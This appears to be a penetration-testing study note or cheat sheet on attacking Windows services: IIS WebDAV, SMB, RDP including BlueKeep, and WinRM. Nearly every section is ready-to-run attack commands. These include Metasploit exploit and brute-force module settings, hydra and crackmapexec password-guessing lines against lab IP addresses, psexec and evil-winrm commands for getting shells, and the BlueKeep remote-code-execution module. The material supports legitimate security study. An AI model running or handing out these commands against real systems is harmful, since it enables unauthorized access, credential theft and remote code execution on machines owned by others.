 

<h2>Exploiting Microsoft IIS WebDav</h2>
Typically configured to run on port 80/443

supported executable file extensions
1. .asp
2. .aspx
3. .config
4. .php

WebDav(Web-Based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allows users to collaboratively edit and manage files on remote web servers

***Tools***
1. davtest - used to scan, authenticate and exploit a webdav server. Comes preinstalled on kali
2. cadaver - this supports file upload, download on screen display. comes preinstalled on kali

commands
To upload to webdav using cadaver
```
cadaver http://10.10.10.10/webdav
```
To use metasploit to exploit webdav
```
use exploit/windows/iis/iis_webdav_upload_asp
set HttpUsername
set HttpPassword
set RHOSTS
set PATH /webdav/metasploit%RAND%.asp
```
wordlist to use when bruteforcing for username and password for services
```
/usr/share/metasploit-framework/data/wordlists/common_users.txt
/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
using metasploit to bruteforce for smb
```
use auxiliary/scanner/smb/smb_login
set verbose false
set stop_on_success false
set RHOSTS
set USER_FILE
set PASS_FILE
```
Exploiting smb with psexec
```
// a password is needed
psexec.py username@10.10.10.10 cmd.exe 
```
Exploiting smb with  psexec for metasploit
```
use exploit/windows/smb/psexec
set RHOSTS
set SMBuser
set SMBPass
```

>cve for eternal blue is cve-2017-0144


<h3> Exploiting RDP</h3>
RDP(Remote Desktop Protocol), used to remotely connect and interact with a windows system. Runs on port 3389 but can also be configured to run on any other tcp port

Using metasploit to scan rdp
```
use auxiliary/scanner/rdp/rdp_scanner 
set RPORT (to the port you are unsure of that is running rdp)
```
bruteforcing for rdp creds
```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.10.10.10:3333 -t 16
```
To connect to rdp
```
xfreerdp /u:administrator /p:qwertyuiop /v:10.10.10.10:3333
```



<h3>Exploiting windows CVE-2019-0708 RDP Vulnerability(BlueKeep)</h3>

Microsoft this vulnerability in May 2019. The attacker gain access to a chunk of kernel memory consequently allowing them to remotely execute arbitrary code at the system level without authentication

Using metasploit to exploit it, this is to check if it is vulnerable
```
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
SET RHOSTS 
run
```
Using metasploit to exploit
```
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
set RHOSTS
show targets
set target 
```


<h3>Exploiting WinRm</h3>
WinRm(Windows Remote Management) this can be used to facilitate remote access with windows systems or HTTP(s). This uses TCP port 5985 and 5986(HTTPS)

**_crackmapexec can be used to perform brute-force on WinRm in order to identify users and their passwords as well as execute commands on the target system_
**
**_A ruby script called "evil-winrm" can be utilized to obtain a command shell session on the target system_**

Using crackmapexec (username is mostly administrator)
```
crackmapexec winrm 10.10.10.10 -u username -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
using crackmapexec to run arbitrary commands
```
crackmapexec winrm 10.10.10.10 -u usermane -p password -x 
```

To get a reverse shell, we'll be using evil-winrm which is a ruby script
```
evil-winrm.rb -u username -p 'password' -i 10.10.10.10
```
Using Metasploit
```
use exploit/windows/winrm/winrm_script_exec
set RHOSTS
set FORCE_VBS true
set username
set password
```



